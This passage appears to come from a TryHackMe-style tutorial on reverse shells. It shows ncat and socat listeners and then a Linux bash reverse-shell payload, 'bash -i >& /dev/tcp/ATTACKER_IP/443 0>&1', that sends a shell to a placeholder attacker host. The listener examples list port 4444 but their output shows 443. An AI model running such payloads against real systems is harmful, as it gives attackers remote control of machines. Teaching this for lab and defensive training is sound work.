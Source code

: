 Ncat is an improved version of Netcat distributed by the NMAP project. It provides extra features, like encryption (SSL).

Usage Example (Listening for Reverse Shells)

```bash
attacker@kali:~$ ncat -lvnp 4444
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:443
Ncat: Listening on 0.0.0.0:443
```

Usage Example (Listening for Reverse Shells with SSL)

```bash
attacker@kali:~$ ncat --ssl -lvnp 4444
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Generating a temporary 2048-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: SHA-1 fingerprint: B7AC F999 7FB0 9FF9 14F5 5F12 6A17 B0DC B094 AB7F
Ncat: Listening on [::]:443
Ncat: Listening on 0.0.0.0:443
```

The `--ssl` option enables SSL encryption for the listener.

### Socat

It is a utility that allows you to create a socket connection between two data sources, in this case, two different hosts.

Default Usage Example (Listening for Reverse Shell):

```bash
attacker@kali:~$ socat -d -d TCP-LISTEN:443 STDOUT
2024/09/23 15:44:38 socat[41135] N listening on AF=2 0.0.0.0:443
```

The command above used the `-d` option to enable verbose output; using it again (`-d -d`) will increase the verbosity of the commands. The `TCP-LISTEN:44`3 option creates a TCP listener on port `443`, establishing a server socket for incoming connections. Finally, the STDOUT option directs any incoming data to the terminal.

## Shell Payloads

A Shell Payload can be a command or script that exposes the shell to an incoming connection in the case of a bind shell or a send connection in the case of a reverse shell.

Let's explore some of these payloads that can be used in the Linux OS to expose the shell through the most popular reverse shell.

### Bash

#### Normal Bash Reverse Shell

```bash
target@tryhackme:~$ bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1 
```
This reverse shell initiates an interactive bash shell that redirects input and output through a TCP connection to the attacker's IP (ATTACKER_IP) on port 443. The >& operator combines both standard output and standard error.

